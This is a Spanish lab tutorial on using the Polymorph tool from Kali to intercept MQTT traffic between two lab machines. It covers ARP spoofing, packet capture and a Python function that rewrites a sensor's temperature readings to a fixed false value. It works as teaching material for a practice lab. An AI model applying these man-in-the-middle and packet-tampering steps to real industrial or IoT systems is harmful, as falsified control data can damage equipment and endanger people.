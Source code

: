 # Polymorph (Manipulación de trafico MQTT)

Este tipo de protocolos se suelen utilizar por ejemplo donde hay sistemas de control industrial de manera que podemos tener un sensor que esta obteniendo la temperatura que hay en el ambiente cada 10 o 20 segundos y manda esa informacion a un servidor que controla por ejemplo una turbina o algo asi, que en funcion de la temperatura que hay, la pone a mas o menos velocidad para refrigerar pues cualquier tipo de sistema o de mecanica que haya por detras.

Por lo que vamos a instalar algunas dependencias que se necesitan en las maquinas las cuales vamos a testear esto, para que tengan el protocolo `MQTT` de `cliente` `servidor` entre 2 maquinas.

Nos iremos a la `Ubunut-Mutillidae` y pondremos lo siguiente:

```shell
sudo apt-get install mosquitto mosquitto-clients
```

Una vez que nos hayamos instalado esto en esa maquina haremos esto mismo para la maquina `Ubuntu-Metasploitable`.

Ahora tenemos que hacer que alguna maquina este suscrito dentro de la herramienta `mosquitto` algun tema.

Si nos vamos a la maquina `Ubuntu-Mutillidae` y ponemos lo siguiente:

```shell
mosquitto_sub -t temperatura
```

Pongamos que este es un caso practico en el que estamos creando esto para controlar la temperatura del ventilado de una turbina.

Y pongamos que la maquina `Ubuntu-Metasploitable` es un sensor y cada cierto tiempo con el siguiente comando...

```shell
mosquitto_pub -t temperatura -m 40 -h 192.168.16.136
```

con el `-t` el topico que va a "publicar". Con el `-m` el mensaje que va a enviar de temperatura en este caso. Con el `-h` es al hosts al que se lo va a enviar.

Y si nosotros ejecutamos esto, en la otra maquina veremos lo siguiente:

```
40
```

Pues si el sensor por asi ponerlo le va mandando periodicamente una serie de lecturas, para ir regulando la temperatura, imaginemos que como atacante podamos cambiar eso y modificar el paquete de red que se envia para que si le va a enviar una temperatura de `120º` le envie una de `10º` (Esto en la realidad seria una catastrofe, pero para que se vea al nivel que puede llegar esto.)

Ahora si nos vamos a `kali` y abrimos de nuevo `polymorph`, nos pondremos en mitad de la comunicacion con:

```shell
spoof -t 192.168.5.184 -g 192.168.5.183
```

Y ahora capturaremos paquetes `mqtt`:

```shell
capture -f mqtt
```

Ahora hacemos como que enviamos la temperatura en la maquina `Ubuntu-Metasploitable`:

```shell
mosquitto_pub -t temperatura -m 20 -h 192.168.5.184
```

Y si volvemos al `kali` y le hacemos `Ctrl+C` veremos que hemos capturado 4 paquetes.

Por lo que si le damos a `show` para ver los paquetes o mejor con `wireshark` podremos ver que el paquete numero `3` es el que nos interesa, por lo que en la terminal de `polymorph` pondremos lo siguiente para seleccionarlo:

```shell
template 3
```

Y si hacemos un `show` veremos todos los campos de dicho paquete.

Por lo que vamos a crearnos una funcion para modificar este paquete al numero de temperatura que nosotros queramos.

```shell
functions -a mod_mqtt -e nano

#Dentro del nano

def mod_mqtt(packet):
	if packet['IP']['proto'] == 6:
		if packet['MQTT']['hdrflags'] == '0x30':
			print("Paquete MQTT Publish recibido!")
			packet['MQTT']['msg'] = b'10'
			print("Paquete modificado!!")

	return packet
```

Para diferenciar del paquete que queremos modificar del que no, lo podemos ver con `wireshark` llendonos al paquete y mirando el `header flags` si es `0x30` sabemos que es un `Publish Message` por lo que es justo lo que queremos a parte de que lo pone seguidamente a la derecha en la seccion de `Message Type`.

Lo que estamos haciendo aqui es modificar el valor de `message` que envie el sensor por el valor `10` siempre, como si marcara siempre `10º`.

Ahora lo que haremos sera interceptar:

```shell
intercept
```

Y en la maquina `Ubuntu-Metasploitable` enviamos los grados como si fuera de forma real.

```shell
mosquitto_pub -t temperatura -m 90 -h 192.168.5.184
```

Si enviamos `90º` por ejemplo lo que veremos en la maquina `Ubuntu-Mutillidae` seran `10º` y veremos que todo ha funcionado correctamente.

Y en nuestro `kali` veremos lo siguiente:

```
Paquete MQTT Publish recibido!
Paquete modificado!!
```

Si quereis saber mas sobre el tema de modificar paquetes en tiempo real, estara en el siguiente link:

URL = [GitHub Info](https://github.com/shramos/polymorph/wiki)
